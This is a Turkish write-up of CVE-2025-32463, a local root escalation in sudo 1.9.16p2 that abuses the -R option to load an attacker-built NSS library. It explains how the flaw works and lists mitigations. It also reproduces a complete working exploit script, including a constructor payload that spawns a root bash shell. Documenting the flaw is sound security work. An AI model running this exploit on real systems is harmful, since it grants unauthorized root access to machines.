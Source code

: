 
# Sudo 1.9.16p2 – CVE-2025-32463 Local Privilege Escalation Exploit

## Zafiyet Özeti

Bu write-up'ta, Rich Mirch tarafından yayınlanan `sudo-chwoot.sh` exploit kodunu kullanarak CVE-2025-32463 yerel yetki yükseltme (EoP) zafiyetini istismar ediyoruz. Zafiyet, `sudo`'nun `-R` parametresi (alternatif kök dizin belirleme) kullanılarak bazı güvenlik kontrollerini atlatabilmesinden kaynaklanıyor. Bu durum, bir kullanıcının özel olarak hazırlanmış bir ortamda `libnss` yüklemesini manipüle ederek root yetkili shell elde etmesini mümkün kılıyor.

---

## Hedef Sistem Özeti

`Dağıtım:` Kali Linux 6.12.25

`Sudo Sürümü:` 1.9.16p2

`Güvenlik Güncellemeleri:` Kapalı

`Kullanıcı Yetkisi:` sudo -R parametresiyle sınırlı sudo erişimi

---

## Exploit Nasıl Çalışıyor?

### 1. `libnss` Manipülasyonu

`sudo` komutu çalıştırılırken, sistem kullanıcı bilgilerini almak için `libnss` (Name Service Switch) kütüphanelerine başvurur. Normalde bu kütüphaneler `/lib/x86_64-linux-gnu/` gibi sistem dizinlerinden yüklenir. Ancak `sudo -R` komutu ile kök dizin değiştirilirse (`chroot` benzeri bir ortam), `libnss` dosyaları belirtilen dizin altından yüklenmeye çalışılır.

### 2. `constructor` ile Yürütme

Exploit, `libnss_woot1337.so.2` adında bir shared object (paylaşımlı nesne) üretir. Bu dosyanın içinde yer alan `constructor` fonksiyonu sayesinde kütüphane yüklendiği anda otomatik olarak çalıştırılır:

```c
__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
```

Bu kod, efektif kullanıcı ve grup kimliklerini `0` (root) yaparak, sistem kabuğunu root yetkileriyle başlatır.

### 3. `sudo -R` ile Tuzağa Düşürme

```bash
sudo -R woot woot
```

Bu komut, `woot` dizinini kök (`/`) olarak kabul eder ve orada `libnss_woot1337.so.2` dosyasının bulunduğunu varsayarak onu yüklemeye çalışır. Bu sırada exploit tetiklenir ve kullanıcı doğrudan root shell elde eder.

---

## Exploit Kod Analizi

```bash
#!/bin/bash
# CVE-2025-32463 – Sudo EoP Exploit PoC

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c <<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

---

## Proof of Concept

Script'i çalıştırıyoruz ve ardından shell açılıyor, `id` komutuyla ile root yetkisi doğrulanıyor.

![](https://github.com/ozcanpng/ozcanpng.github.io/blob/main/images/PoC.png)

---

## Teknik Detaylar

- `sudo` çalışırken, kullanıcı bilgilerini almak için `libnss` dosyalarını kök dizinden (`/`) göreceli olarak yükler.
- `-R` bayrağı, bu yolu saldırganın kontrolündeki bir dizine yönlendirerek kendi kütüphanesini yüklemesine olanak tanır.
- Kütüphane yüklenince, içindeki `constructor` kodu tetiklenir.
- Kod, root yetkileriyle kabuk açar ve kullanıcının kontrolünü sisteme verir.

---

## Zafiyetin Giderilmesi

**Güvenlik önlemleri:**

- `sudo` sürümünüzü güncelleyin.
- Kullanıcıların `sudo -R` gibi özel root dizin belirleme yetkilerini kısıtlayın.
- NSS yüklemelerinde dış dizinlere güvenmeyin; sert yol tanımlamaları ve kütüphane doğrulaması uygulayın.

---

## Kaynaklar

- [https://www.stratascale.com/cve-2025-32463-analysis](https://www.stratascale.com/cve-2025-32463-analysis)
- [Exploit DB Kaydı](https://www.exploit-db.com/exploits/52352)
- [Rich Mirch – GitHub](https://github.com/mirchr/CVE-2025-32463-sudo-chwoot)

---

## Sonuç

Bu zafiyet, sistemin yapılandırma hatalarından faydalanarak root yetkilerinin kolayca alınmasına neden olmaktadır. `libnss` gibi temel sistem bileşenlerinin uygun şekilde yalıtılmaması ve `sudo -R`'nin etkili güvenlik kontrollerine tabi olmaması, bu açığın var olmasına neden olmuştur. Sistem yöneticileri, kullanıcıların yetkilerini dikkatli sınırlandırmalı ve `sudo` yapılandırmalarını düzenli olarak gözden geçirmelidir.
